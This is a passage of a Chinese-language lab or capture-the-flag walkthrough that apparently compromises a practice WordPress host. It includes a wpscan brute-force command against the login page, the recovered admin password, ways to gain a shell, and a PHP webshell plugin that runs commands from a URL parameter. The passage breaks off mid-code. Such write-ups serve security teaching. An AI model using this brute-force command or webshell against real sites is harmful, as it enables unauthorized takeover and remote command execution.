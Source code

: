 #### 	哟~~登陆密码?

我们想起wordpress的默认管理页面是`wp-admin`,我们访问一下看看

![截屏2021-08-25 上午11.23.16](https://tva1.sinaimg.cn/large/008i3skNgy1gtsvd6fwnkj61090u0tb902.jpg)

重定向到了登录页面.我们尝试使用admin/admin弱密码登录试试![截屏2021-08-25 上午11.24.16](https://tva1.sinaimg.cn/large/008i3skNgy1gtsve77b1hj60ks08cgm302.jpg)

看来我们的用户名确实是admin,但是密码错误了.

那就爆破吧!

<u>*ps:一开始我使用了burp+seclists字典进行爆破,奈何community版本爆破太慢!且正确密码在第70000个左右,只好转战wpscan这款专业的wordpress工具,同时使用rockyou.txt进行爆破,正确密码大概在第30000个左右.*</u>

**<u>我在这里友好地提示各位,如果没必要的话,直接用下面我爆破出来的密码就行,不用自己尝试了,太耗时间.不过如果你用的是burp专业版,且使用rockyou.txt的话可以自行尝试,大概在5~10分钟左右能出结果</u>**

使用kali自带的rockyou.txt密码字典文件,结合wpsan自带的密码爆破功能,进行尝试

`wpscan --url http://10.0.0.31/wordpress/ --login-uri http://10.0.0.31/wordpress/wp-login.php -U 'admin' -P ~/tools/dict/rockyou.txt`

![截屏2021-08-25 下午3.10.18](https://tva1.sinaimg.cn/large/008i3skNly1gtt1xjbw07j61d00eo0w002.jpg)

我的天啊,等待了近乎三个小时,终于把密码爆破了出来——`adam14`

我们现在尝试登陆吧~![截屏2021-08-25 下午3.11.53](https://tva1.sinaimg.cn/large/008i3skNly1gtt1z3x8vqj61090u0jwh02.jpg)

这下我们就来到了wordpress的管理界面

### 快把shell给我!

一般来说,我们有四种方式获得shell

#### 1.Media->Add New上传shell文件.

很可惜,仅在某些有漏洞的版本有效.此处无法使用此漏洞![截屏2021-08-25 下午3.12.57](https://tva1.sinaimg.cn/large/008i3skNly1gtt206noytj61090u0q6r02.jpg)

#### 2.修改主题,嵌入代码

点击Appearance->Theme Editor

通常来说,我们会选择404.php进行修改,插入一条php一句话,从而获取shell![截屏2021-08-25 下午3.33.35](https://tva1.sinaimg.cn/large/008i3skNgy1gtt2lpqabjj61090u0jx102.jpg)

很可惜,此处不能直接进行修改,可能是有什么限制...

#### 3.增加插件,上传插件

我们可以自己写一个恶意的插件,然后增加到服务器中.这样就可以执行任意代码啦

要注意,插件的编写需要一定格式.

```php
<?php
/*
Plugin Name: Webshell
Plugin URI: https://github.com/busizhiya/
Description: Wordpress Webshell for Pentest
Version: 1.0
Author: bszy
Author URI: https://github.com/busizhiya/
License: https://github.com/busizhiya/
*/
if(isset($_GET['qaq']))
	{
  	system($_GET['qaq']);
```